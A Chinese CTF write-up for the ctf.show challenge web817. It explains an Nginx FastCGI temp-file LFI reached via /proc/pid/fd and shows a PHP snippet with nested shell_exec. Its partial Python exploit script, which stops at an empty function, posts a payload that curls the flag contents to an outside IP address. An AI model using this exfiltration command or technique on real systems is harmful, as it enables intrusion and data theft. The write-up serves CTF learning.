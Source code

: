 ##  web817

考点：

1. 让后端 php 请求一个过大的文件
2. Fastcgi 返回响应包过大，导致 Nginx 需要产生临时文件进行缓存
3. 虽然Nginx 删除了`/var/lib/nginx/fastcgi`下的临时文件，但是在 `/proc/pid/fd/` 下我们可以找到被删除的文件
4. 遍历 pid 以及 fd ，使用多重链接绕过 PHP 包含策略完成 LFI  

原理链接：

https://tttang.com/archive/1384/#toc_0x03-counter-nginx-request-body-temp-lfi

```php
$file = $_GET['file'];
if(isset($file) && preg_match("/^\/(\w+\/?)+$/", $file)){
	shell_exec(shell_exec("cat $file"));

}
```

两个shell_exec，相当于我们`cat $file`后的内容，最后又作为命令去执行

关于对`/proc`目录的解释比较详细：

https://blog.spoock.com/2019/10/08/proc/ 

这个题链接：

https://blog.csdn.net/miuzzx/article/details/124489107

本子：

```python
import  threading, requests
import socket
import re
port= 28053
s=socket.socket()
s.connect(('pwn.challenge.ctf.show',port))
s.send(f'''GET / HTTP/1.1
Host:127.0.0.1

	'''.encode())
data=s.recv(1024).decode()
s.close()
pid = re.findall('(.*?) www-data',data)[0].strip()
print(pid)

con="curl http://101.34.94.44:4567?`cat /f*`;"+'0'*1024*500
l = len(con)
def upload():
	while True:
		s=socket.socket()
		s.connect(('pwn.challenge.ctf.show',port))
		x=f'''POST / HTTP/1.1
Host: 127.0.0.1
Content-Length: {l}
Content-Type: application/x-www-form-urlencoded
Connection: close

{con}

		'''.encode()
		s.send(x)
		s.close()

def bruter():
```